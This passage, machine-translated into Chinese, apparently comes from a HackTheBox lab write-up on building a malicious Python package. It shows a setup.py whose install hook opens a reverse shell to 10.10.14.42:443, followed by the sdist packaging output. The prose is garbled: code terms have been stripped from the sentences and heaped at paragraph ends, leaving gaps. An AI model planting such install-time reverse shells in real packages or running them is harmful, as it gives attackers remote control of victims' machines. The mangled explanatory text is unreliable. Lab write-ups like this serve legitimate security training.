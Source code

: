 恶意代码将进入 。实际上，我以前在[Canape](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#sudo-pip)中创建了一个恶意的。来自Linode的教程显示了合法的样子。它基本上使用一堆关于包的元数据进行调用。[此GitHub](https://github.com/mschwager/0wned)显示了如何添加恶意部分（尽管在上下文中而不是在包中，但它是相同的）。`setup.py``setup.py``setup.py``setup``sudo pip`

默认情况下，具有一些由 和 知道的命令，如 、等。我可以使用参数来传递命令字典，其中包含用于它们的类。该类应具有一个方法，该方法将运行。因为我期望这种交互立即发生，所以我只会让函数成为一个反向外壳：`setup``pip``setup.py``install``uninstall``list,``cmdclass``setup``run``run`

    import os
    import socket
    import subprocess
    from setuptools import setup
    from setuptools.command.install import install
    
    class Exploit(install):
        def run(self):
            RHOST = '10.10.14.42'
            RPORT = 443
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((RHOST, RPORT))
            for i in range(3):
                os.dup2(s.fileno(), i)
            p = subprocess.call(["/bin/sh","-i"])
    
    setup(name='revshell',
          version='0.0.1',
          description='Reverse Shell',
          author='0xdf',
          author_email='0xdf',
          url='http://sneakycopy.htb',
          license='MIT',
          zip_safe=False,
          cmdclass={'install': Exploit})
    

### 打包和上传

#### 本地套餐

要创建一个包，我可以进入包含的目录，然后使用以下命令运行它：`revshell``setup.py``sdist`

    root@kali# python setup.py sdist
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)
    